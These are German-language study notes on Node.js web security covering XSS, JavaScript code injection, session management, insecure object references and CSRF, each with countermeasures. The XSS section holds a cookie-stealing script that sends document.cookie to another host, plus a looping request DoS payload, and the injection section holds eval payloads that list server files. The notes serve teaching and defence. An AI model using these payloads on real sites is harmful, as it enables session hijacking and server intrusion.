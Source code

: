 # Web Security

Motivation für Websecurity:

* Imageverlust, rechtliche Folgen/Haftung
* Später Einbau von Sicherheit ist aufwändig und unsicher

Vulnerability
: Angriffsmöglichkeit

Angriff / Attack Vector
: Details/Schritte einer Angriffsmöglichkeit

Malitious Code
: Angriffs-Code, Schadcode

Injection Attack
: Angriff bei dem einem System Code zur Ausführung untergeschoben wird

XSS
: Cross Site Scripting. Eine Angriffsmethode bei der in einer Web-Seite im Browser des Opfers eingeschleustes JavaScript zur ausgeführt wird. XSS würden besser als “JavaScript Browser Injection“ Attacken bezeichnet werden.

## Cross-Site-Scripting (XSS)
> drei wirksame Massnahmen,um Webapp abzusichern
> ➪ Umsetzen können: PRÜFUNG?!

Bei XSS wird der Server Server bzw. die Daten des Servers so manupuliert, dass Schadcode (JavaScript) eines Angreifers an Nutzer (Opfer) ausgeliefert wird und im Browser dieser Nutzer ausgeführt wird.

### Beispiel

Von Nutzern in einem Formular eingegebene Daten werden ohne "escaping"/Nachbereitung an andere Nutzer ausgeliefert - beispielsweise alle Username in Admin-Konsole.

Folgender Input sendet das cookie der aktuellen seite an einen anderen Server.

```html
fakeUser<script>document.body.innerHTML += '<img src="http://localhost:8081/?cookie=' + escape(document.cookie) + '">';</script>
```

Der Angreiffer bekommt nun das Cookie und kann mit dem die Session übernehmen:
```js
document.cookie = unescape(cookie);
```

Mit XSS wäre auch ein DDos Angriff möglich
```html
<script>function ddos(){document.body.innerHTML += '<img src="http://path-to-vulnerable-resource/">';setTimeout(function(){ddos()}, 2000)}; ddos();</script>
```

### Gegenmassnahmen
* Kontext-sensitives Data Encoding aka. "escaping". bzw. Input Validierung bei der Entgegennahme der Daten
* Content Security Policy (CSP) im Header setzen: z.B. nur die Source Domain und eine REST Service darf kontaktiert werden.
* Bei Cookies soweit möglich das HTTPOnly Flag setzen

```js
app.use(express.session({
    secret: "server secret",
    key: "sessionId",
    cookie: {
        httpOnly: true,
        secure: true
    }
}))
```

!!! todo

    Evtl [konkrete escaping Tabelle](http://nodegoat.herokuapp.com/tutorial/a3) einbinden

→ Verbesserung des Encodings / Filtering

## JS Code Injection
Angreifer kann den Server dazu bringen, vom Angreifer eingeschleuster code Auszuführen. Bei Node ist das JavaScript - könnte in anderem Kontext aber bsp. Python oder PHP Code sein.

### Beispiel
```js
// Insecure use of eval() to parse inputs
var preTax = eval(req.body.preTax);

// Geht aber auch mit setTimeout, setInterval
window.setTimeout("alert('Hello World!');", 500);
// und new Function
new Function("return x;");
```

Mögliche Möglicher Angriff

```js
while(true){/*Loop forever*/}
```

```js
res.end(require('fs').readdirSync('.').toString())
```

### Gegenmassnahmnen

* EVAL ist EVIL.
* `parseInt` und `JSON.parse` verwenden.
* Globale Scopes und Variablen reduzieren.
* Rechenintensive Tasks mit `childprocess.spawn` auslagern
* Node nicht als Root
* `x-powered-by` Header abstellen. `app.disable('x-powered-by');`

## Broken Authentication and Session Management

Bei Problemen bei der Authentisierung und dem Session Management können externe Angreifer oder **Angreifer** mit einem validen Login **auf Informationen zugreifen welche nicht für sie bestimmt sind**.

### Beispiele
* Passwort oder Token wird nicht verschlüsselt übertragen (Unabhängig  GET/POST) ➪ Mit Sniffer auslesbar.
* Session Timeout ist zu lang
* Kennwörter unverschlüsselt in DB

### Gegenmassnahmen
* HTTPS Nutzen
* Session Timeout für sensible Daten und Operationen sinnvoll setzen.
* Kennwörter verschlüsselt in DB

## Insecure Direct Object References

Wenn eine Referenz auf ein intern implementiertes Objekt (Bsp. Datei, Verzeichnis oder DB-Key). Ohne Zugriffskontrolle oder andere Schutzmechanismen kann der Angreiffer über diese Referenzen unberechtigte Daten verändern.

### Beispiel
User ID nur in URL codiert `www.retureEasy.com/stockportfolio/:userId`, aber auf der Seite wird nicht geprüft, ob der Aktuelle user auch diese ID hat.

### Gegenmassnahmen
Bei alle Seiten mit benutzerspezifischen Daten vor der Anzeige sicher stellen, dass der eingeloggte User berechtigt ist, die Daten zu sehen/bearbeiten.

In Node können solche Checks mittels Middlewares implementiert werden.

```js
function requireLogin(req, res, next) {
    if (typeof(req.session.user_id) == "number") {
        next();
    } else {
        res.send(401, 'not authorized');
    }
}
```

## Cross Site Request Forgery
Eine CSRF Attacke zwingt den Browser des Opfers, einen gefälschten HTTP request (inklusive dessen Session-Cookie und anderen Authentifizierungsdaten) an einen verwundbaren webserver zu senden. Dies ermöglicht dem Angreiffer. Damit kann der Angreiffer über den Browser des Opfers ANfragen auf die verwundbare Appliatkion ausführen.


### Beispiele
Der Nutzer ist aktuell bei RetireEasy eingelogged, er wird aber (z.B. über einem Link in einem E- Mail) auf eine Seite mit Schadcode gelockt. Diese Seite generiert einen Formular-Post-Request auf die RetireEasy/profile Seite mit gefälschten Daten für das Profil.

### Gegenmassnahmen
* Generieren von server-seigigen Security Tokens.
* Einbetten in Formular (Hidden fields)
* Prüfen bei Request

## Top Overlooked Security Threats To NodeJS Web Applications

!!! seealso

    * http://nodegoat.herokuapp.com/tutorial
    * https://blog.risingstack.com/node-js-security-checklist/
